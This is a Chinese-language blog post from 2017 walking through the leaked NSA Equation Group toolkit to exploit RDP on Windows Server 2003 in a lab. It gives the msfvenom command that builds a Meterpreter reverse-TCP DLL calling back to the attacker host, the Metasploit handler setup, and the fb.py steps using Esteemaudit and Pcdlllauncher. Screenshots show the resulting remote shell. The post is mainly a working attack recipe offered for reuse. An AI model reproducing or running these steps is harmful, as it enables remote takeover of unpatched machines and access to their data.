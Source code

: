 ```yaml
---
title: NSA工具包验证之RDP漏洞利用
date: 2017-06-15 21:32:39
tags: 网络安全
---
```


### 验证环境：

攻击机1(本次演示IP：172.16.11.2)：windows系统，[安装python2.6.6](https://www.python.org/download/releases/2.6.6/), [pywin32-221.win32-py2.6.exe](https://sourceforge.net/projects/pywin32/files/pywin32/Build%20221/), xshell, xftp, [下载方程式工具包](https://codeload.github.com/misterch0c/shadowbroker/zip/master)放到C盘，在工具包目录下的windows目录新建文件夹"listeningposts"，并且开放所有端口关闭防火墙，确保内网可以访问之

攻击机2(本次演示IP：172.16.12.2)：kali linux，需要开启ssh服务，详情百度

目标机1(本次演示IP：172.16.12.4)：开放了3389端口的Windows Server 2003

以上所有IP之间均可以直接访问
### 验证步骤：
<!--more-->
#### 第一步：生成可执行的恶意dll文件
0x01
首先通过xshell连接到kali linux，打开xshell，在跳出来的窗口点击new(新建)，然后填入kali的IP地址点击确定然后连接，接着依次输入kali的账号与密码即可连接，可能会跳出安全警告，点击接收并保存即可，连接完成得到如图：
![1.jpg](https://blog-1252906577.costj.myqcloud.com/img/NSA%E6%BC%94%E7%A4%BA/1.jpg "1.jpg")
0x02
执行命令：
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.16.12.2 LPORT=5555 -f dll >s.dll
```
在kali根目录下生成s.dll文件，其中LHOST为kali的IP地址，LPORT为一个可任意填写的端口，届时将使目标机执行该dll向172.16.12.2:5555发送shell
0x03
点击xshell如图位置
![3.jpg](https://blog-1252906577.costj.myqcloud.com/img/NSA%E6%BC%94%E7%A4%BA/3.jpg "3.jpg")
打开本地C盘，并将kali目录下刚刚生成的s.dll复制到本机的C盘根目录下，如图
![4.jpg](https://blog-1252906577.costj.myqcloud.com/img/NSA%E6%BC%94%E7%A4%BA/4.jpg "4.jpg")
#### 第二步：配置kali使得kali处于监听状态
0x01
依次输入命令
```
msfconsole
use exploit/multi/handler
set lhost 172.16.12.2
set lport 5555
set PAYLOAD windows/meterpreter/reverse_tcp
exploit
```
看到如图即说明配置成功
![2.jpg](https://blog-1252906577.costj.myqcloud.com/img/NSA%E6%BC%94%E7%A4%BA/2.jpg "2.jpg")
这时就可以将xshell最小化，等后边再用
#### 第三步：使用方程式工具包进行攻击
0x01
将方程式工具包下的windows文件夹重命名为win，然后拷贝到C盘根目录下，并在该文件夹下新建一个名为"listeningposts"的文件夹，如图，不然运行会报错
![5.jpg](https://blog-1252906577.costj.myqcloud.com/img/NSA%E6%BC%94%E7%A4%BA/5.jpg "5.jpg")
0x02
打开命令提示符，输入
```
C:\win\fb.py
```
然后依次输入目标IP，本地IP，是否重定向，日志存放位置，新建工程，给该工程命名，最后确认，如图
![1.jpg](https://blog-1252906577.costj.myqcloud.com/img/NSA%E6%BC%94%E7%A4%BA/3389/1.jpg "1.jpg")
最后敲击回车
0x03
显示出`fb >`之后输入命令
```
use Esteemaudit
```
使用该工具，之后除了下图所示位置需要修改，其他都保持默认直接敲击回车即可
（设置监听还是连接、系统位数、系统版本）
![](https://blog-1252906577.costj.myqcloud.com/img/NSA%E6%BC%94%E7%A4%BA/3389/2.jpg "2.jpg")
（回拨IP以及端口，端口号可以任意设置）
![](https://blog-1252906577.costj.myqcloud.com/img/NSA%E6%BC%94%E7%A4%BA/3389/3.jpg "3.jpg")
（配置DLL路径，需要改为实际路径）
![](https://blog-1252906577.costj.myqcloud.com/img/NSA%E6%BC%94%E7%A4%BA/3389/4.jpg "4.jpg")
之后几个回车即可看到连接成功，如图
![5.jpg](https://blog-1252906577.costj.myqcloud.com/img/NSA%E6%BC%94%E7%A4%BA/3389/5.jpg "5.jpg")
0x04
接着输入命令
```
use Pcdlllauncher
```
使用Pcdlllauncher，除了下图其他保持默认即可
（改为自己的实际路径）
![6.jpg](https://blog-1252906577.costj.myqcloud.com/img/NSA%E6%BC%94%E7%A4%BA/3389/6.jpg "6.jpg")
（之前生成的s.dll路径）
![7.jpg](https://blog-1252906577.costj.myqcloud.com/img/NSA%E6%BC%94%E7%A4%BA/3389/7.jpg "7.jpg")
之后不断回车，会看到如图
![](https://blog-1252906577.costj.myqcloud.com/img/NSA%E6%BC%94%E7%A4%BA/3389/10.jpg "10.jpg")
不用理他，打开xshell可以看到已经成功反弹shell，如下图
![](https://blog-1252906577.costj.myqcloud.com/img/NSA%E6%BC%94%E7%A4%BA/3389/8.jpg "8.jpg")
然后就可以比如说输入shell模拟终端执行命令了
![](https://blog-1252906577.costj.myqcloud.com/img/NSA%E6%BC%94%E7%A4%BA/3389/9.jpg "9.jpg")